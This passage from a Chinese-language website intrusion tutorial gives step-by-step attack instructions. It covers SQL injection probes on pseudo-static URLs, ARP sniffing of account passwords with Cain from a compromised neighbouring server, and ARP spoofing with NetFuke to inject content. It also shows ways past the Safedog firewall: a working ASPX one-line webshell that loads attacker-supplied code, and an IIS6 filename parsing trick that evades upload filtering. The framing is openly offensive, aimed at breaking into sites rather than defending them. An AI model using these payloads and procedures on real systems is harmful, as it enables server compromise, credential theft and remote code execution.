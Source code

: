 做了伪静态之后就成这样了：

http://www.91ri.org/news.php/id/111.html

以斜杠“/”代替了“=”并在最后加上.html，这样一来，就无法直接用工具来注入了。

常规的伪静态页面如下：http://www.XXX.com/play/Diablo.html

例如关联的动态页面是game.php ，那么当用户访问后程序会自动转换成类似http://www.XXX.com/game.php?action=play&name=Diablo 的形式

注入点检测可以用：http://www.XXX.com/play/Diablo’ and 1=’1.html与http://www.XXX.com/play/Diablo’ and 1=’2.html来判断

通常情况下，动态脚本的网站的url类似下面这样：http://www.xxoo.net/aa.php?id=123

做了伪静态之后类似这样：http://www.xxoo.net/aa.php/id/123.html 以斜杠“/”代替了“=”并在最后加上.html，这样一来，就无法直接用工具来注入了！


### 0x24 嗅探 

当入侵一个网站，该网站没有任何漏洞的情况下，可以进行旁注，再提权拿下任意一台服务器，不行的话就C段，提权拿下任意一台服务器。

只要能拿下同网段的任意一台服务器，就可以使用C段嗅探来获取主站的帐号密码，cain是一款强大的劫持工具。

在服务器里安装cain后打开主控端，点击配置->选择服务器IP一项->在路由追踪一项取消全部->确定。

设置完毕后点击一下激动按钮(中间那个)，再点击嗅探器，点击加号符号，选择所有在子网主机，选择ARP测试(传播 31-位)，确定。

扫描完毕选择网关一项，点击ARP，点击加号符号，左边选择网关，右边选择全部的C段，确定，点击开始嗅探按钮(第三个)，嗅探到的帐号密码在口令一项展现！

如果发现没数据可以使用幻境网盾来限制网速，让cain的发包快过防火墙。


### 0x25 arp欺骗

只要该服务器存在C段，都可以尝试arp欺骗，用到的工具是NetFuke，想知道arp劫持能不能成功，cmd命令：arp -a 看一下，动态的服务器IP就能成功，静态的就不能。

安装完运行主控端，设置–嗅探设置–网卡选择服务器的IP–控制选项选择“启用ARP欺骗、启用过滤器、启用分析器、启用修改器、主动转发” 确定。

设置–ARP欺骗–双向欺骗–来源Ip填服务器的网关–中间人IP填服务器的IP–目标IP填要欺骗的任意C段ip(用御剑扫描C段)–确定。

插件管理–修改器–最后一个选项双击–在右边的HTML Body = [haha!!] 填写自己要展现的文字，点击开始即可欺骗成功！


### 0x26 突破安全狗防注入及上传

1.写入webshell 写不进去，平常的一句话 也失效，用这段代码：

<%@ Page Language=”C#” ValidateRequest=”false” %> <%try{System.Reflection.Assembly.Load(Request.BinaryRead(int.Parse(Request.Cookies[“admin163.net”].Value))).CreateInstance(“c”, true, System.Reflection.BindingFlags.Default, null, new object { this }, null,null); } catch { }%>

连接端用cncert的aspx一句话客户端

2.IIS6.0解析漏洞遇到安全狗

文件名为http://www.baicai.com/1.asp;1.jpg

这样的会被IIS安全狗果断屏蔽

改成如下名称,IIS6一样会解析:

www.baicai.com/;1.asp;1.jpg
